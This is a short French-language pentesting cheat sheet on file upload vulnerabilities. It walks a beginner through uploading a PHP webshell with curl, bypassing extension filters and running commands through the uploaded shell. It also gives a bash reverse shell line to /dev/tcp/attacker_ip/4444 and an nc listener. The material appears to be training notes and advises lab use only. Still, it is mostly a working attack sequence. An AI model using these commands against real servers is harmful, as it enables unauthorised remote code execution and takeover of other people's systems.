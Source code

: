 # Vulnérabilités d’Upload de Fichiers

## Objectif
Exploiter une faille d’upload pour téléverser un fichier malveillant (webshell, reverse shell) et prendre le contrôle du serveur.

---

## Commandes essentielles et explications

### 1. Détection de la vulnérabilité
- Tester l’upload d’un fichier PHP ou d’une extension inhabituelle (ex : .php, .php5, .phtml).
- **Astuce débutant** : Renommer un fichier en "shell.php.jpg" ou "shell.phtml".

### 2. Bypass des filtres d’extension
- Tester différentes extensions, double extension, ou modification du Content-Type.
- Exemple d’upload avec curl :
```bash
curl -F "file=@shell.php" http://target.com/upload.php
```
- **À surveiller** : Fichier accepté, emplacement du fichier, possibilité d’exécution.

### 3. Exécution du webshell
- Accéder au fichier uploadé :
```
http://target.com/uploads/shell.php?cmd=id
```
- **À surveiller** : Exécution de commandes, affichage du résultat.

### 4. Reverse shell via webshell
- Exemple de commande à lancer dans le webshell :
```
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
- **Astuce** : Lancer un listener sur ta machine :
```bash
nc -nlvp 4444
```

---

## Conseils pour débutants
- Toujours tester d’abord avec des extensions classiques, puis tenter des contournements.
- Vérifier l’emplacement du fichier uploadé et les droits d’exécution.
- Tester sur des environnements de lab, jamais en production sans autorisation.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Upload)
- [OWASP File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload) 